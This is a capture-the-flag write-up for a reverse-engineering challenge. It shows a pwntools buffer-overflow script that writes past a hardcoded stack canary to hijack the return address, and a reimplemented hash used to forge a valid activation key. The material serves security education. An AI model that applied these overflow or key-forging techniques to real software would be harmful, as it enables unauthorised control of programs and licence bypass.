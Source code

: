 # Write up for michaelsoft_binbows

## Overview

For this challenge we are doing some reverse engineering. We have one executable file for the two flags. 
The files run a program that needs an activation key. We have 2 ways of pwning this.

## Solution

### Flag 1

For this challenge we want to buffer overflow to put in a new return address to the function that prints the flag. 
However, there is a canary in the stack. Luckily it's a hardcoded canary. 
So as long as we add our canary into the buffer overflow at the right spot, we'll get the flag.
We need to input 32 characters to fill the buffer, than there's a 4 character gap, than the canary, then another unknown gap, then the return address. 
We don't need to figure out the unkown gap, as we can just send our pwned return address several times, and one of them will overwrite the return address.
This gets us the flag. Below is a solution script.
```
#!/usr/bin/python

from pwn import *
context.terminal = ['tmux', 'split']

p = remote("REDACTED", REDACTED)
# p = process("./binbows")
# Canary -0x21524111
can = 0xDEADBEEF
pwn_flag_fn = 0x08049855

print(p.recv())
p.sendline(36*b"A" + p32(can) + 6*p32(pwn_flag_fn))
print(p.recv())
p.interactive()
```

### Flag 2

For the second flag, as the check function is in the executable, we can reverse engineer it to create a valid activation key.
Looking through the activation function, we find it throws out the first 8 characters, then hashes the next 8 characters, 
and finally checks if the last 16 characters are equal the hash of the prior 8 characters. Thus to make a valid key, we just need to replicate their hash function.
That function is also in the executable binary. Below is a python implementation of it. Although originally generated with an AI tool, it ended up needing to
be almost completely rewritten.
```
def hash_function(input_str):
    # Assumes input is 8 lowercase letters only
    
    output = 16*['']
    local_10 = 1337
    local_14 = 0
    for char in input_str:
        # char_value = ord(char) - 97  
        iVar1 = (((ord(char) - 97) * 2) + local_10) % 26
        iVar2 = ((ord(char) - 97) * 3) % 26
        # print(iVar1)
        local_10 = iVar1 - iVar2 
        
        output[local_14] = chr(iVar1 + 97)
        output[local_14 + 8] = chr(iVar2 + 97)

        local_14 +=1
    
    return ''.join(output)
```

From there, we can just input 8 characters, and combine 8 arbitrary characters to the 8 inputted and 16 outputted. 
This gives us the second flag. Below is a solution script.
```
#!/usr/bin/python

from pwn import *
context.terminal = ['tmux', 'split']

p = remote("REDACTED", REDACTED)
# p = process("./binbows")

print(p.recv())
p.sendline(8*b"a" + 8*b'b' + b"nmlkjihgdddddddd")
print(p.recv())
p.interactive()
```




